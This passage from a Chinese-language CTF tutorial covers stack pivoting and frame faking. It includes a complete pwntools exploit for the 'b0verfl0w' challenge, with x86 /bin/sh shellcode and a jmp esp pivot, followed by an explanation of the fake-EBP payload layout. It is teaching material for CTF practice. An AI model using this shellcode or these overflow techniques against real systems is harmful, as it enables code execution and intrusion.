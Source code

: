 - size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我們最後一段需要執行的指令就是

```asm
sub esp,0x28
jmp esp
```

所以最後的 exp 如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

#### 例2-轉移堆

待。

### 題目

- [EkoPartyCTF 2016 fuckzing-exploit-200](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/stackoverflow/stackprivot/EkoPartyCTF%202016%20fuckzing-exploit-200)

## frame faking

正如這個技巧名字所說的那樣，這個技巧就是構造一個虛假的棧幀來控制程序的執行流。

### 原理

概括地講，我們在之前講的棧溢出不外乎兩種方式

- 控制程序 EIP
- 控制程序 EBP

其最終都是控制程序的執行流。在 frame faking 中，我們所利用的技巧便是同時控制 EBP 與 EIP，這樣我們在控制程序執行流的同時，也改變程序棧幀的位置。一般來說其 payload 如下

```
buffer padding|fake ebp|leave ret addr|
```

即我們利用棧溢出將棧上構造爲如上格式。這裏我們主要講下後面兩個部分
